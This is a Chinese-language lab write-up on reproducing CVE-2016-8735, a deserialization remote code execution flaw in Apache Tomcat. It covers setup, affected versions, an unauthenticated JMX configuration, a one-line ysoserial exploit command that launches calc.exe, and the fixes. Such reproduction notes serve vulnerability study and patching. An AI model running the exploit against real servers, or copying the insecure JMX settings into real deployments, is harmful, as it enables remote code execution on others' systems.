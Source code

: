 ### 介绍

Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP 规范总是能在Tomcat 中得到体现。因为Tomcat 技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。

### 环境搭建

```
Java环境安装
https://www.java.com/en/download/manual.jsp
Tomcat
https://tomcat.apache.org/download-70.cgi
```

1、下载并解压

![image-20200811143448762](／CVE-2016-8735/images/image-20200811143320510.png)

2、双击执行启动服务

```
http://192.168.3.156:8080/
```

![image-20200811143448762](/images/image-20200811143448762.png)

#### Tomcat结构介绍

下载解压后存在目录、文件信息：

```shell
bin-----存放Tomcat的脚本文件，例如启动、关闭
conf----Tomcat的配置文件，例如server.xml和web.xml
lib-----存放Tomcat运行需要的库文件（JAR包）
logs----存放Tomcat执行时的LOG文件
temp----存放Tomcat运行时所产生的临时文件
webapps-Web发布目录，默认情况下把Web应用文件放于此目录
work----存放jsp编译后产生的class文件
```

### 漏洞分类实战

#### CVE-2016-8735

##### 漏洞描述

Oracle修复了JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。 Tomcat也使用了JmxRemoteLifecycleListener这个监听器,但是Tomcat并没有及时升级，所以存在这个远程代码执行漏洞。

##### 影响范围

Apache Tomcat 9.0.0.M1 to 9.0.0.M11 

Apache Tomcat 8.5.0 to 8.5.6 

Apache Tomcat 8.0.0.RC1 to 8.0.38 

Apache Tomcat 7.0.0 to 7.0.72 

Apache Tomcat 6.0.0 to 6.0.47

##### 漏洞原理

该漏洞的诱因存在于Oracle已经修复的JmxRemoteLifecycleListener反序列化漏洞(CVE-2016-3427)。因为Tomcat也使用了JmxRemoteLifecycleListener监听功能，但并没有及时升级，导致该远程代码执行漏洞。

##### 漏洞条件

1、要外部开启JmxRemoteLifecycleListener监听端口，实现远程利用。 

```xml
conf/server.xml
<Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
```

![image-20200812101526860](/images/image-20200812101526860.png)

2、下载对应jar放到lib目录下：

- catalina-jmx-remote.jar要与对应tomcat版本一致[不同版本下载](https://archive.apache.org/dist/tomcat/)一般存在extras文件下，如下图所示
- [groovy2.3.9](https://mvnrepository.com/artifact/org.codehaus.groovy/groovy/2.3.9)下载版本最好为2.3.9（经过测试2.3.0到2.4.0-beta-4）

![image-20200812102130773](/images/image-20200812102130773.png)

![image-20200811163431177](/images/image-20200811163431177.png)

3、接着修改bin/catalina.bat，在Execute The Requested Command处上面添加

```java
set CATALINA_OPTS=-Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false
```

- -Dcom.sun.management.jmxremote.ssl=false 指定是否使用SSL通讯
- -Dcom.sun.management.jmxremote.authenticate=false 指定是否需要密码验证

![image-20200812101910590](/images/image-20200812101910590.png)

4、服务启动

下图所示：服务已启动10001端口已启动

![image-20200812103050881](/images/image-20200812103050881.png)

##### 漏洞检测

1、执行以下PoC

```java
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.3.165 10001 Groovy1 calc.exe
```

Java 1.8出现报错

![image-20200812104703039](/images/image-20200812104703039.png)

1.7的jdk成功弹出计算器

![PoC](/images/PoC.gif)

##### 漏洞修复

紧急措施：关闭JmxRemoteLifecycleListener功能，或者是对jmx JmxRemoteLifecycleListener远程端口进行网络访问控制。同时，增加严格的认证方式。

升级jdk（目前测试1.8是无法利用）

推荐方案：官方已经发布了版本更新，建议您升级到最新版本。

- Apache Tomcat 9.0.0.M13或更新版本(Apache Tomcat 9.0.0.M12也修复了此漏洞，但并未发布)
- Apache Tomcat 8.5.8或更新版本(Apache Tomcat 8.5.7也修复了此漏洞，但并未发布)
- Apache Tomcat 8.0.39或更新版本
- Apache Tomcat 7.0.73或更新版本
- Apache Tomcat 6.0.48或更新版本
